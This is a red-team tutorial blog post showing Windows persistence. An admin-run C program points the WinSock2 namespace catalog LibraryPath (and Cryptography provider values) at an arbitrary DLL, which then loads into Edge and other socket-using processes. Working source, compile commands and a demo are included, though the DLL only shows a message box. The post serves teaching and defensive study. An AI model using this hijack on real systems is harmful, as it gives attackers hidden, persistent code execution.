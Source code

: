 ```yaml
---
title:  "Malware development: persistence - part 26. Microsoft Edge - part 1. Simple C example."
date:   2024-08-14 03:00:00 +0300
header:
  teaser: "/assets/images/132/2024-08-19_21-36.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/132/2024-08-19_21-36.png){:class="img-responsive"}    

This post came about in preparation for a workshop on *Malware Persistence techniques*. This post shows that interesting persistence methods can be found via [Sysinternals Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) via filters, this is a well-known and popular method, I just want to show it in practice. In my case, everything worked out thanks to one of the registry keys that is used by many applications of the operating system, in particular Microsoft Edge:      

```powershell
"HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007"
```

Apparently this registry path is used by all applications that work with sockets.     

### practical example

First of all, I just start with simple filters in Procmon, like this:     

![pers](/assets/images/132/2024-08-14_14-23_1.png){:class="img-responsive"}     

As a result we will get many many interesting records:      

![pers](/assets/images/132/2024-08-14_14-23.png){:class="img-responsive"}     

As you can see, we can replace different registry key values:    

![pers](/assets/images/132/2024-08-14_14-24.png){:class="img-responsive"}     

As an experiment I decided to replace one of these DLLs.    

In C it's looks like this:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Strong Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

or another value:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA???
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Enhanced RSA and AES Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

It certainly worked:     

![pers](/assets/images/132/2024-08-14_14-16.png){:class="img-responsive"}     

But the caveat is that the entire operating system froze after this and even the antivirus started freeze.    

So i decided to start a new search:     

![pers](/assets/images/132/2024-08-19_21-53.png){:class="img-responsive"}     

After a long search I found another interesting key and value in the registry:     

```powershell
reg query "HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007" /s
```

![pers](/assets/images/132/2024-08-20_13-02.png){:class="img-responsive"}     

and tried to replace it. For this just update `LibraryPath` value:    

```cpp
/*
 * hack.c
 * Microsoft Edge
 * persistence trick v1.0
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"System\\CurrentControlSet\\Services\\WinSock2\\Parameters\\NameSpace_Catalog5\\Catalog_Entries64\\000000000007", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry keys
    RegSetValueEx(hkey, (LPCSTR)"LibraryPath", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the code is pretty simple as usual, just set value via `RegSetValueEx` function. In my case, `hack.dll` - just `meow-meow` messagebox:    

```cpp
/*
 * hack.c
 * "malware" for Microsoft Edge
 * persistence trick
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBoxA(NULL, "Meow-meow!!", "=^..^=", MB_OK);
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### demo

Let's check everything in action.     

Compile our `meow-meow` "malware" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08.png){:class="img-responsive"}      

And compile persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08_1.png){:class="img-responsive"}      

Then, run it on test victim's machine (Windows 11 x64):    

```powershell
.\pers.exe
```

![malware](/assets/images/132/2024-08-20_13-14.png){:class="img-responsive"}      

As you can see, registry key value is successfully updated. Note that we need Administrative privleges for update this Registry value.        

Then, try to open `Microsoft Edge`:    

![malware](/assets/images/132/2024-08-19_21-35.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-33.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-34.png){:class="img-responsive"}     

For the correctness of the experiment, we will launch our Process Hacker 2 and check memory:    

![malware](/assets/images/132/2024-08-19_21-46.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-46_1.png){:class="img-responsive"}     

As you can see, `hack.dll` successfully launched, you got the same result for another Windows applications, even `Procmon64.exe` also. I think we get the same behavior after open anything in our operation system which work with Windows sockets.    

> This is a practical case for educational purposes only.     

[Windows Sockets](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createsymboliclinka)     
[Malware persistence - part 1. Registry run keys](/tutorial/2022/04/20/malware-pers-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-08-14-malware-pers-26)    

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
